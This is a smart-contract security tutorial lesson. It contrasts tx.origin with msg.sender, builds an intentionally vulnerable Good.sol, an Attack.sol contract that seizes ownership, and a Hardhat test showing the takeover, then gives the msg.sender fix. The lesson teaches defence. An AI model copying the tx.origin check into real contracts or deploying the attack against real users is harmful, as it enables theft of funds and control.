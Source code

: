 # 🧠 `tx.origin` vs `msg.sender`

`tx.origin` is a global variable which returns the address that created the original transaction. It is kind of similar to `msg.sender`, but with an important caveat. We will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts.

<Quiz questionId="19f27642-5123-4ca0-8dc2-888901bc1a70" />

## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction, `msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origin` will be the `User` regardless of where you check it from.

<Quiz questionId="f1794e7c-a213-438e-a44e-4ba8af40fdae" />
<Quiz questionId="8c7cdf4d-f222-4e4f-8f52-111883ebf624" />

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.

### ⚒️ Build

### Setting up Hardhat

Let's build an example where you can experience how the attack happens. Start by creating a new project directory.

```bash
mkdir tx-origin
```

Let's now setup Hardhat inside the `tx-origin` directory.

```bash
cd tx-origin
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Writing the Smart Contracts

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner");
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `tx-origin/contracts` directory and write the following lines of code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good public good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

### Writing the test

Now let's try imitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("tx.origin", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.connect(addr1).deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    let tx = await attackContract.connect(addr1).attack();
    await tx.wait();

    // Now let's check if the current owner of Good.sol is actually Attack.sol
    expect(await goodContract.owner()).to.equal(attackContract.address);
  });
});
```

The attack will happen as follows, initially `addr1` will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of `addr1` to call the `attack` function with `Attack.sol`.

When the user calls `attack` function with `addr1`, `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol`

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

### Testing the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Real Life Example

While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake. You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used `tx.origin` for transfer checks instead of `msg.sender`.

<Quiz questionId="88403387-338e-4a18-9c2f-9c73b4841c43" />

## 👮 Prevention

You should use `msg.sender` instead of `tx.origin` to not let this happen. There is almost never a good use case for `tx.origin` except in very specific cases - and in those times, be VERY careful.

Example:

```solidity
function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}
```

<Quiz questionId="e9fac2b4-c5f3-4fc9-acd7-26ca40ea12b5" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
